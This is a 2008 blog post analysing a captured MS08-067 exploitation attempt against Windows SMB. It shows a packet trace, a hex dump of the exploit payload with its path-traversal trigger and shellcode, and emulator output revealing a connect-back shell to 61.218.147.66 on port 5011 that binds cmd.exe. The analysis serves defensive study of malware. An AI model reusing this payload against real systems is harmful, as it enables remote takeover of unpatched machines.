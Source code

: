 ```yaml
---
title: "MS08-067 exploitation in the wild"
authors: ["Tillmann Werner"]
date: "2008-11-04"
categories: 
  - "analysis"
---
```

{{<figure src="images/banner.png" alt="Banner" width="50%">}}

(This article was originally published at [http://honeytrap.mwcollect.org/msexploit](http://honeytrap.mwcollect.org/msexploit).)

If you followed IT security related blogs or mailinglists lately, you are aware that a critical [server service vulnerability](http://www.microsoft.com/technet/security/bulletin/ms08-067.mspx) in Microsoft operating systems was published recently. I'm not going to talk about the details here, there are great resources available [elsewhere](http://www.dontstuffbeansupyournose.com/?p=35) (and the "_reversing the ms08-067 patch_" article isn't the only advice about exploiting holes you get on that page).

OK, what have we got this time? One of our [honeytrap](http://honeytrap.mwcollect.org) sensors caught an MS08-067 exploitation attempt today which we take as an example to show how to perform a quick analysis and check what it does. If you want to play along, get the (sanitized) pcap from [here](http://honeytrap.mwcollect.org/data/ms08-067.pcap).

Now the first thing we would normally do is take a look at the packet trace. [Some people](http://wikipedia.org/wiki/Chuck_Norris) are said to be able to decode hex SMB messages in their head - as we aren't one of those, we might prefer the amazing [wireshark](http://www.wireshark.org/) (or tshark for the command line guys) that does the decoding for us. Here's the list of packets (shortened and wrapped):

```
1 A -> V TCP inovaport5 > microsoft-ds [SYN] Seq=0 Win=65535 Len=0 MSS=1460  
2 V -> A TCP microsoft-ds > inovaport5 [SYN, ACK] Seq=0 Ack=1 Win=5840 Len=0 MSS=1460  
3 A -> V TCP inovaport5 > microsoft-ds [ACK] Seq=1 Ack=1 Win=65535 Len=0  
4 A -> V SMB Negotiate Protocol Request  
5 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1 Ack=138 Win=5840 Len=0  
6 V -> A SMB Negotiate Protocol Response  
7 A -> V SMB Session Setup AndX Request, NTLMSSP_NEGOTIATE  
8 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=184 Ack=408 Win=6432 Len=0  
9 V -> A SMB Session Setup AndX Response, NTLMSSP_CHALLENGE,  
Error: STATUS_MORE_PROCESSING_REQUIRED  
10 A -> V SMB Session Setup AndX Request, NTLMSSP_AUTH, User: \  
11 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=588 Ack=706 Win=7504 Len=0  
12 V -> A SMB Session Setup AndX Response  
13 A -> V SMB Tree Connect AndX Request, Path: \\192.168.111.11\IPC$  
14 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=772 Ack=804 Win=7504 Len=0  
15 V -> A SMB Tree Connect AndX Response  
16 A -> V SMB NT Create AndX Request, Path: \browser  
17 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=832 Ack=910 Win=7504 Len=0  
18 V -> A SMB NT Create AndX Response, FID: 0x4008  
19 A -> V DCERPC Bind: call_id: 1 SRVSVC V3.0  
20 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=971 Ack=1070 Win=7504 Len=0  
21 V -> A DCERPC Bind_ack: call_id: 1 accept max_xmit: 4280 max_recv: 4280  
22 A -> V SRVSVC NetPathCanonicalize request  
23 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1099 Ack=1642 Win=8580 Len=0  
24 V -> A SRVSVC NetPathCanonicalize response,  
Error: Unknown DOS error 0x5c455000[Long frame (8 bytes)]  
25 A -> V SRVSVC NetPathCanonicalize request  
26 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1199 Ack=1894 Win=8580 Len=0  
27 V -> A SRVSVC NetPathCanonicalize response,  
Error: Unknown DOS error 0x5c455000[Long frame (8 bytes)]  
28 A -> V SMB Close Request, FID: 0x4008  
29 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1299 Ack=1939 Win=8580 Len=0  
30 V -> A SMB Close Response, FID: 0x4008  
31 A -> V TCP inovaport5 > microsoft-ds [ACK] Seq=1939 Ack=1338 Win=64198 Len=0  
32 V -> A TCP microsoft-ds > inovaport5 [FIN, ACK] Seq=1338 Ack=1939 Win=8580 Len=0  
33 A -> V TCP inovaport5 > microsoft-ds [FIN, ACK] Seq=1939 Ack=1339 Win=64198 Len=0  
34 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1339 Ack=1940 Win=8580 Len=0  
```

Allright, packet 19 contains a bind call for the `srvsvc` API that contains the vulnerable `NetPathCanonicalize` function which gets called for the first time in packet 22 and contains the following payload:

```
00000000 00 00 00 00 cf 00 00 00 00 00 00 00 cf 00 00 00 |................|  
00000010 5c 00 41 00 5c 00 2e 00 2e 00 5c 00 2e 00 2e 00 |\.A.\.....\.....|  
00000020 5c 00 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |\...............|  
00000030 90 90 2b c9 83 e9 b8 d9 ee d9 74 24 f4 5b 81 73 |..+.......t$.[.s|  
00000040 13 ba 1a cd 77 83 eb fc e2 f4 46 70 26 3a 52 e3 |....w.....Fp&:R.|  
00000050 32 88 45 7a 46 1b 9e 3e 46 32 86 91 b1 72 c2 1b |2.EzF..>F2...r..|  
00000060 22 fc f5 02 46 28 9a 1b 26 3e 31 2e 46 76 54 2b |"...F(..&>1.FvT+|  
00000070 0d ee 16 9e 0d 03 bd db 07 7a bb d8 26 83 81 4e |.........z..&..N|  
00000080 e9 5f cf ff 46 28 9e 1b 26 11 31 16 86 fc e5 06 |._..F(..&.1.....|  
00000090 cc 9c b9 36 46 fe d6 3e d1 16 79 2b 16 13 31 59 |...6F..>..y+..1Y|  
000000a0 fd fc fa 16 46 07 a6 b7 46 37 b2 44 a5 f9 f4 14 |....F...F7.D....|  
000000b0 21 27 45 cc ab 24 dc 72 fe 45 d2 6d be 45 e5 4e |!'E..$.r.E.m.E.N|  
000000c0 32 a7 d2 d1 20 8b 81 4a 32 a1 e5 93 28 11 3b f7 |2... ..J2...(.;.|  
000000d0 c5 75 ef 70 cf 88 6a 72 14 7e 4f b7 9a 88 6c 49 |.u.p..jr.~O...lI|  
000000e0 9e 24 e9 59 9e 34 e9 e5 1d 1f 87 c0 5e 35 dc 72 |.$.Y.4......^5.r|  
000000f0 de e4 dc 49 44 96 2f 72 21 8e 10 7a 9a 88 6c 70 |...ID./r!..z..lp|  
00000100 dd 26 ef e5 1d 11 d0 7e ab 1f d9 77 a7 27 e3 33 |.&.....~...w.'.3|  
00000110 01 fe 5d 70 89 fe 58 2b 0d 84 10 8f 44 8a 44 58 |..]p..X+....D.DX|  
00000120 e0 89 f8 36 40 0d 82 b1 66 dc d2 68 33 c4 ac e5 |...6@...f..h3...|  
00000130 b8 5f 45 cc 96 20 e8 4b 9c 26 d0 1b 9c 26 ef 4b |._E.. .K.&...&.K|  
00000140 32 a7 d2 b7 14 72 74 49 32 a1 d0 e5 32 40 45 ca |2....rtI2...2@E.|  
00000150 a5 90 c3 dc b4 88 cf 1e 32 a1 45 6d 31 88 6a 72 |........2.Em1.jr|  
00000160 3d fd be 45 9e 88 6c e5 1d 77 41 41 41 41 41 41 |=..E..l..wAAAAAA|  
00000170 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
00000180 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
00000190 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
000001a0 41 41 41 41 41 41 41 41 41 41 cc 41 00 00 00 00 |AAAAAAAAAA.A....|  
000001b0 01 00 00 00 02 00 00 00 00 00 00 00 02 00 00 00 |................|  
000001c0 5c 00 00 00 01 00 00 00 01 00 00 00 |\...........|  
```

Ah, there is the `\..\..` pattern at offset 0x14 that triggers the vulnerability. And hey, there seems to be some shellcode right behind it. Allright, as usual, we get our copy of [libemu](http://libemu.mwcollect.org)'s `sctest` utility out and feed it with the packet payload:

```
$ /opt/libemu/bin/sctest -s 169762 -gS < payload  
verbose = 0  
success offset = 0x00000032  
hooked ExitProcess  
hooked ExitThread  
stepcount 169762  
HMODULE LoadLibraryA (  
LPCTSTR lpFileName = 0x0012fe88 =>  
= "ws2_32";  
) = 0x71a10000;  
int WSAStartup (  
WORD wVersionRequested = 2;  
LPWSADATA lpWSAData = 1244284;  
) = 0;  
SOCKET WSASocket (  
int af = 2;  
int type = 1;  
int protocol = 0;  
LPWSAPROTOCOL_INFO lpProtocolInfo = 0;  
GROUP g = 0;  
DWORD dwFlags = 0;  
) = 66;  
int connect (  
SOCKET s = 66;  
struct sockaddr_in * name = 0x0012fe74 =>  
struct = {  
short sin_family = 2;  
unsigned short sin_port = 37651 (port=5011);  
struct in_addr sin_addr = {  
unsigned long s_addr = 1116985917 (host=61.218.147.66);  
};  
char sin_zero = " ";  
};  
int namelen = 16;  
) = 0;  
BOOL CreateProcess (  
LPCWSTR pszImageName = 0x00000000 =>  
= "gby hand;  
LPCWSTR pszCmdLine = 0x0012fe68 =>  
= "cmd";  
LPSECURITY_ATTRIBUTES psaProcess = 0x00000000 =>  
none;  
LPSECURITY_ATTRIBUTES psaThread = 0x00000000 =>  
none;  
BOOL fInheritHandles = 1;  
DWORD fdwCreate = 0;  
LPVOID pvEnvironment = 0x00000000 =>  
none;  
LPWSTR pszCurDir = 0x00000000 =>  
none;  
struct LPSTARTUPINFOW psiStartInfo = 0x0012fe14 =>  
struct = {  
DWORD cb = 68;  
LPTSTR lpReserved = 0;  
LPTSTR lpDesktop = 0;  
LPTSTR lpTitle = 0;  
DWORD dwX = 0;  
DWORD dwY = 0;  
DWORD dwXSize = 0;  
DWORD dwYSize = 0;  
DWORD dwXCountChars = 0;  
DWORD dwYCountChars = 0;  
DWORD dwFillAttribute = 0;  
DWORD dwFlags = 257;  
WORD wShowWindow = 0;  
WORD cbReserved2 = 0;  
LPBYTE lpReserved2 = 0;  
HANDLE hStdInput = 66;  
HANDLE hStdOutput = 66;  
HANDLE hStdError = 66;  
};  
struct PROCESS_INFORMATION pProcInfo = 0x0052f74c =>  
struct = {  
HANDLE hProcess = 4711;  
HANDLE hThread = 4712;  
DWORD dwProcessId = 4712;  
DWORD dwThreadId = 4714;  
};  
) = -1;  
DWORD WaitForSingleObject (  
HANDLE hHandle = 4712;  
DWORD dwMilliseconds = -1;  
) = 0;  
int closesocket (  
SOCKET s = 66;  
) = 0;  
LPTOP_LEVEL_EXCEPTION_FILTER SetUnhandledExceptionFilter (  
LPTOP_LEVEL_EXCEPTION_FILTER lpTopLevelExceptionFilter = 0x7c800000 =>  
none;  
) = 0x7c81cdda;  
```  

There we are. It's a connectback shell which tries to reach 61.218.147.66 (actually the attacking host) at port 5011/tcp and binds the socket to a cmd.exe. This is typical bot behavior, so what we see here is most likely a spreading piece of malware. Unfortunately we've been to slow and the port was already closed, so we didn't manage to catch a sample...
